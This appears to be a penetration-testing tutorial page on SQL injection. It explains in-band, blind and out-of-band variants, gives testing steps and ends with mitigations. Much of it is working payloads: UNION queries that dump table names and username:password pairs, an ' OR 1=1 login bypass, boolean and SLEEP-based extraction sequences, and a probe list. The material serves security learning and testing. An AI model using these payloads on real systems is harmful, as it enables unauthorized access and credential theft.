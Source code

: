# SQL Injection

SQL Injection (SQLi) is a type of attack on web applications. It happens when an application uses unvalidated user input to interact with a database. This can allow attackers to access, modify, or delete sensitive data. They might also bypass authentication to access private areas. SQLi is an old but highly damaging vulnerability.

## SQLi Types

### In-Band SQLi

In-Band SQL Injection is easy to find and exploit. It uses the same communication method to attack and get results. For example, you can discover an SQL Injection flaw on a website and extract database data to the same page.

<details>

<summary>Error-Based SQL Injection</summary>

SQL Injection exploits can reveal database details by displaying error messages directly in the browser, useful for mapping the database.

</details>

<details>

<summary>Union-Based SQL Injection</summary>

This SQL Injection technique uses the UNION operator with a SELECT statement to show more data on a web page. It's a common method to extract large amounts of data through an SQL Injection vulnerability.

{% code overflow="wrap" %}
```sql
# get error to enumerate the db
1 UNION SELECT 1

# get current db
0 UNION SELECT 1,2,database()

# get database tables
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'shop'

# get columns name of a table
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'

# get data from a table
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```
{% endcode %}

</details>

### Blind SQLi

Blind SQL injection differs from In-Band SQL injection because it doesn't show results directly on the screen. In Blind SQLi, we receive little to no feedback because error messages are turned off. However, the injection still functions, and even a tiny bit of feedback can help us gather information from the entire database.

<details>

<summary>Authentication Bypass</summary>

Blind SQL Injection is often used to bypass login forms. Here, the goal isn't to retrieve data from the database but simply to gain access by bypassing authentication.

Get a scenario where we have a Login page with Username and Password. The query should be this:

```sql
select * from users where username='%username%' and password='%password%' LIMIT 1;
```

Insert the payload bellow into the Password field can allow us to ignore the password check and access without insert the correct password.

```sql
# payload in password field
' OR 1=1;-- '

# query changed into this
select * from users where username='' and password='' OR 1=1;
```

{% hint style="info" %}
Using `1=1` in a query with an **OR** operator always returns true. This tricks the web application into thinking a username/password match is found, allowing access.
{% endhint %}

</details>

<details>

<summary>Boolean Based</summary>

Boolean-based SQL Injection involves using true/false responses from injection attempts to determine success. Although it may seem limited, these responses can help reveal the entire database structure and its contents.

Using the function LIKE we can find out the letters of a Database, Table, Column and Data Row.

For example we have a API endpoint that return True/Falso if a user exists and the parameter is vulnerable to SQLi. Abusing of this parameter we can obtain all information to dump the DB.

{% code overflow="wrap" %}
```sql
# try any chars to find DB name
admin123' UNION SELECT 1,2,3 where database() like 's%';--    '

# try any chars to find tables name
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name like 'a%';--         '

# try any chars to find columns name        
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';     '

# check for some existing user   
admin123' UNION SELECT 1,2,3 from users where username like 'a%

# check for the correct password of found users
admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%
```
{% endcode %}

</details>

<details>

<summary>Time-Based</summary>

Time-based blind SQL injection is similar to boolean-based injection, but there are no visual signs to check if your queries are correct. Instead, you determine success by the time taken for the query to complete. This is often done by using the **`SLEEP(x)`** function with a `UNION` statement. The `SLEEP()` function runs only when a `UNION SELECT` statement is successful.

<pre class="language-sql" data-overflow="wrap"><code class="lang-sql"><strong># try SLEEP function to test SQLi
</strong><strong>mario' UNION SELECT SLEEP(5),2,3;--    
</strong><strong>
</strong><strong># repeat the Boolean-Based SQLi enumeration process to find out db informations 
</strong>admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--

admin123' UNION SELECT SLEEP(5),2 FROM information_schema.tables WHERE table_schema = 'sqli_four' and table_name like 'a%';--         '

admin123' UNION SELECT SLEEP(5),2 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_four' and TABLE_NAME='users' and COLUMN_NAME like 'a%';

admin123' UNION SELECT SLEEP(5),2 from users where username like 'a%

admin123' UNION SELECT SLEEP(5),2 from users where username='admin' and password like 'a%
</code></pre>

</details>

<details>

<summary>Out-of-Band SQLi</summary>



Out-of-band SQL Injection is not very common because it relies on certain database features or specific logic in a web application that makes external network requests based on SQL query results.

This type of attack uses two communication channels: one to execute the attack and another to receive the results. For example, the attack channel might be a web request, while the data collection channel could involve monitoring HTTP or DNS requests to a server you control.

Here's how it works:

1. An attacker sends a request with a malicious SQL payload to a vulnerable website.
2. The website processes the SQL query, including the attacker's payload, with the database.
3. The payload triggers the server to send an HTTP request back to the attacker containing sensitive data from the database.

<figure><img src="../../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

</details>



## Testing for SQLi

Testers should find app features where users can enter data, which may impact the database. For each feature found, testers must test for vulnerabilities by using harmful strings and values.

### Vulnerable input recon

Using special characters in SQL inputs like `'`, `"`, `#`, `;`, `)`, `*`, and `%` can cause SQL errors, sometimes visible to users. This can show that the inputs aren't properly sanitized, making them vulnerable to SQL injection.

For every payload do not forget to try url encoding or others.

### Manual Test

Try this payloads below for each input in the web app. Tools like Burp can help us to do this.

{% code title="Request" %}
```javascript
/page?id=PAYLOAD
```
{% endcode %}

{% code title="Manual Payloads" %}
```
id=1
id=1'
id=1"
id=[1]
id[]=1
id=1`
id=1\
id=1/**/
id=1/*!111'*/
id=1' or '1'='1
id=1 or 1=1
id=' or ''='
id=' OR 1 -- -
id=1' or 1=1 --
id=1' or 1=1 -- -
id=1' or 1=1 /*
id='='
```
{% endcode %}



### Automatic Tools

{% content-ref url="../../../../../tools/web-tools/sqlmap.md" %}
[sqlmap.md](../../../../../tools/web-tools/sqlmap.md)
{% endcontent-ref %}



## Mitigations

SQL Injection vulnerabilities can seriously impact web applications. However, developers can safeguard their applications by following these practices:

#### 1. Use Prepared Statements

In prepared statements, the SQL query is written first and user inputs are added as parameters later. This approach ensures the SQL code remains unchanged, allowing the database to differentiate between the query and the data. This also makes your code cleaner and easier to read.

#### 2. Validate Input

Input validation protects SQL queries by controlling what is entered. Using an allow list restricts input to acceptable strings. Alternatively, a string replacement method can filter allowed and disallowed characters.

#### 3. Escape User Input

Allowing characters like `'`, `"`, `$`, and `\` can cause SQL queries to break or open them to attacks. Escaping user input involves adding a backslash (`\\`) before these characters, treating them as regular strings rather than special characters.
